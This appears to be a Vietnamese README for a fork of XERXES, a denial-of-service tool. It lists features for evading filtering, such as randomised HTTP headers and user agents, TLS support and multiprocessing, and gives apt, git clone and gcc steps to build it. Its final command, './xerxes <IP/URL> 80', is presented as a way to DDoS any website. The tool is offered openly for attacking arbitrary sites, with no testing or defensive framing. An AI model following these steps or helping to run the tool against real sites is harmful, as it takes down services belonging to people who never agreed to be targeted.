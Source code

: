 # XERXES
XERXES là công cụ DoS đơn giản mạnh mẽ nhất của zanyarjamal

# Công cụ dos Xerxes được cải tiến với nhiều tính năng như:
- [x] Hỗ trợ TLS
- [x] Tự random HTTP header
- [x] Tự random Useragent
- [x] Hỗ trợ đa xử lý
- [x] Nhiều phương thức tấn công
v.v …

# Cách cài đặt
Cài đặt các thư viện cần thiết cho Xerxes
```
sudo apt-get -y install build-essential cmake libssl-dev pkgconf
```
Tải xerxes về máy tính
```
git clone https://github.com/DauDau432/xerxes
```
Sau đó di chuyển đến thư mục vừa cài đặt
```
cd xerxes
```
Tiếp theo, bạn nên biên dịch với trình biên dịch GNU GCC
```
gcc xerxes.c -o xerxes
```
# Cách sử dụng
Sử dụng lệnh dưới đây để DDOS vào Website bất kỳ
```
./xerxes <IP/URL> 80
```
